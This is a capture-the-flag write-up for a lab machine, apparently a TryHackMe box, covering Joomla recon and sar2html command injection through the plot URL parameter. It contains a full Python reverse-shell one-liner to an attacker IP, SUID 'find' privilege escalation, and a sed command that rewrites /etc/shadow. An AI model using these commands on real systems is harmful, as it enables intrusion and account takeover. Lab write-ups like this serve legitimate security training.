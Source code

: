 # BoilCTF
IP: 10.10.8.187
<br>
First of all, went to the IP in the browser and found the apache2 server running. Then I went to robot.txt and found some interesting stuff there:

```
User-agent: *
Disallow: /

/tmp
/.ssh
/yellow
/not
/a+rabbit
/hole
/or
/is
/it

079 084 108 105 077 068 089 050 077 071 078 107 079 084 086 104 090 071 086 104 077 122 073 051 089 122 085 048 077 084 103 121 089 109 070 104 078 084 069 049 079 068 081 075
```

Interesting pages on joomla/:
- _test
- administrator
- build
- tests

```
MYSQL_DATABASE: joomla_ut
     MYSQL_USER: joomla_ut
     MYSQL_PASSWORD: joomla_ut
     MYSQL_ROOT_PASSWORD: joomla_ut
```

I even tried to use Joomla Scanner, but didn't find anything useful.
```
Joomla version is: 3.9.12

> Joomla! Core 1.5.0 - 3.9.4 - Directory Traversal / Authenticated Arbitrary File Deletion 
> Joomla! 3.9.0 < 3.9.7 - CSV Injection
```

Also I spent a lot of time visiting all the folders, which was a really bad idea. Some interesting stuff that I found there, even though they were not useful at all.
```
tests/codeception/\_support/Shared/UserCredentials.php
http://boilctf.thm/joomla/media/editors/

codemirror/
none/
tinymce/
```

:bulb: After some time, I realized that I needed another tactic. I remembered that there was some weird thing on the _\_test_ page. So I went there. 
![sar2html](./imgs/sar2html.png)
Then I googled sar2html exploit and found what I needed. It turns out that to exploit the thing we just need to change the URL a little bit.<br>
This is a good URL that is supposed to give us something whatever.<br>
http://boilctf.thm/joomla/_test/index.php?plot=LINUX<br>
But if we change it to:
http://boilctf.thm/joomla/_test/index.php?plot=;whoami and click on the Select Host button<br>
we get some additional results there, which is a response to our command:
![whoami](./imgs/whoami.png)

I set up an _nc_ listener on port *2222* and used a simple Python reverse-shell which I found on the internet. Therefore, eventually, my URL looked like this:<br>
```
http://boilctf.thm/joomla/_test/index.php?plot=;python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.2.116.12",2222));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```

And at this point, we got a reverse-shell. Here is the contents of the _log.txt_ file that was in the folder.
![log.txt](./imgs/log.txt.png)
So we got usernames and passwords there.
username: _basterd_<br>
username: _pentest_<br>
password: _superduperp@$$_<br>
**But that actually doesn't matter :)**<br>

I used this command to search for files on the system with the setuid (SUID) permission bit set for the owner.
```
find / -perm -u=s -type f 2>/dev/null
```
There were many files, but the more experience you have the more you understand which files you should look for. So the interesting executable for me was _find_.
I went to https://gtfobins.github.io/gtfobins/find/ and found that I can escalate my privileges with this command: 
```
find . -exec /bin/sh -p \; -quit
```
So I executed it and got root.

Even though that reverse-shell worked I wanted to connect via _ssh_ to the machine.
SSH was not on port 22. Reading the ssh config file (`/etc/ssh/sshd_conf`) found that it was running on port `55007`.

Also, I couldn't connect directly to root so I created my own hash of a password. And changed the `/etc/shadow` file a little bit.
```
openssl passwd -6 -salt xyz yourpass
$6$xyz$VKswtvLoVpOLcpjDMIFXhxa8ukqqKSKHjcPBLZUk9NxWldmlFQY4stUGo.QjEhav7mp86ih2PRqYPqjkhWi5y.
sed -i 's/^basterd:[^:]\*:/basterd:$6$xyz$VKswtvLoVpOLcpjDMIFXhxa8ukqqKSKHjcPBLZUk9NxWldmlFQY4stUGo.QjEhav7mp86ih2PRqYPqjkhWi5y.:/' /etc/shadow
```
And that let me connect via _ssh_.<br>
### A little bit of hardening
To prevent privilege escalation with the _find_ command need to do this:<br>
`chmod u-s /usr/bin/find`
